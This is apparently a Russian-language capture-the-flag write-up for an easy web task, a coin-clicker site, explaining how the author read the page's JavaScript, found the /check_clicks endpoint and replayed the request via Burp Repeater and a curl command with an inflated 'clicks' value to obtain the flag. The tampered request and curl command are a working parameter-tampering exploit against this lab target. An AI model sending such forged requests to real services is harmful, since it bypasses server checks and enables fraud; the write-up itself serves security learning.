




# Сила воли 🌐

## Описание задачи 📌

Название задачи:

```text
Сила воли
```

Сложность:

```text
Easy
```

Описание со страницы задачи:

```text
Я люблю людей, движущихся только вперед, поэтому я сделал сайт на проверку их силы воли и выносливости.
Докажи мне, что ты достоин получить этот флаг!
```

В качестве цели задачи был указан адрес:

```text
tasks.duckerz.ru:30069
```

Скрин страницы задачи:



## Что есть на старте 🔎

При переходе на сайт открывается кликер:

```text
DUCKERZ Coin
```

На странице есть счетчик монет, большая кнопка для кликов и кнопка:

```text
SHOP
```

По смыслу задачи сайт проверяет, достаточно ли пользователь "накликал" для покупки флага.

Скрин сайта:



## Первый важный шаг 🧠

Через Burp Suite был открыт JavaScript-файл страницы:

```text
/static/js/index.js/
```

Внутри кода была найдена логика покупки флага.

Самый важный фрагмент:

```javascript
fetch(url, {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        clicks: targetClicks
    })
})
```

Этот код показывает, какой запрос браузер отправляет на сервер при попытке купить флаг.

Скрин анализа в Burp:



## Что именно мы узнали ⚙️

Из JavaScript видно несколько важных вещей.

Endpoint:

```text
/check_clicks
```

Метод запроса:

```text
POST
```

Тип данных:

```text
Content-Type: application/json
```

Тело запроса:

```json
{
  "clicks": targetClicks
}
```

То есть при покупке флага клиент отправляет на сервер JSON с количеством кликов.

## Почему это важно для CTF-задачи 🧪

В обычном интерфейсе нужно долго кликать по кнопке, чтобы накопить нужное количество монет.

Но для CTF важнее понять, что реально проверяет сервер. В этом шаге мы нашли место, где браузер отправляет число кликов на backend.

Главная мысль этого этапа:

```text
покупка флага завязана на POST-запрос с JSON-параметром clicks
```

Значит, дальше нужно проверять, можно ли управлять этим значением вручную через Burp Repeater или другой HTTP-клиент.

## Эксплуатация через Burp Repeater 🧰

После того как стало понятно, какой запрос отвечает за покупку флага, его можно повторить вручную в Burp Repeater.

В Repeater был отправлен запрос:

```http
POST /check_clicks HTTP/1.1
Host: tasks.duckerz.ru:30069
Content-Type: application/json
```

С телом:

```json
{
    "clicks": 600000
}
```

Скрин успешного запроса:



Почему были нужны именно эти строки:

- `POST /check_clicks` взяли из JavaScript-кода: именно на этот endpoint отправляется запрос при покупке.
- `Content-Type: application/json` тоже взяли из JavaScript-кода: сервер ожидает данные в JSON-формате.
- `"clicks"` взяли из `body: JSON.stringify({ clicks: targetClicks })`: это имя поля, которое сервер проверяет.
- `600000` выбрали как большое число кликов, чтобы точно пройти проверку на нужное количество.

То есть мы не придумывали структуру запроса с нуля. Мы просто повторили то, что делает браузер, но заменили значение `clicks` на большое число.

## Альтернативный способ через curl 🐚

Тот же самый запрос можно отправить без Burp, обычной командой `curl`:

```bash
curl -s -X POST 'http://tasks.duckerz.ru:30069/check_clicks' \
  -H 'Content-Type: application/json' \
  --data '{"clicks":600000}'
```

Разберем команду подробно.

```bash
curl
```

Утилита для отправки HTTP-запросов из терминала.

```bash
-s
```

Silent mode. Убирает лишний прогресс-бар и оставляет только ответ сервера.

```bash
-X POST
```

Явно указывает HTTP-метод `POST`. Он нужен, потому что в JavaScript запрос к `/check_clicks` отправлялся именно методом `POST`.

```bash
'http://tasks.duckerz.ru:30069/check_clicks'
```

Адрес endpoint, найденный в клиентском JavaScript.

```bash
-H 'Content-Type: application/json'
```

Добавляет HTTP-заголовок. Он сообщает серверу, что тело запроса отправлено в формате JSON.

```bash
--data '{"clicks":600000}'
```

Тело запроса. Здесь мы передаем JSON-объект с полем `clicks` и большим количеством кликов.

В ответ сервер вернул флаг. В writeup сам флаг не вставляется.

## Итоговая цепочка ✅

```text
Открыли кликер
        ↓
Нашли JavaScript-код покупки флага
        ↓
Увидели POST-запрос на /check_clicks
        ↓
Поняли, что сервер получает JSON с clicks
        ↓
Повторили запрос в Burp Repeater
        ↓
Заменили clicks на большое число
        ↓
Получили флаг
```

Суть задачи: клиент сам отправляет на сервер количество кликов. Поэтому проверку можно пройти не реальным долгим кликаньем, а ручной отправкой JSON-запроса с большим значением `clicks`.

## Финальный статус 🏁

В решении использовали:

```text
страница: кликер DUCKERZ Coin
важный файл: /static/js/index.js/
важный endpoint: /check_clicks
метод: POST
формат тела: JSON
ключевой параметр: clicks
инструменты: Burp Repeater, curl
```

Автор: masquadd :) ✍️
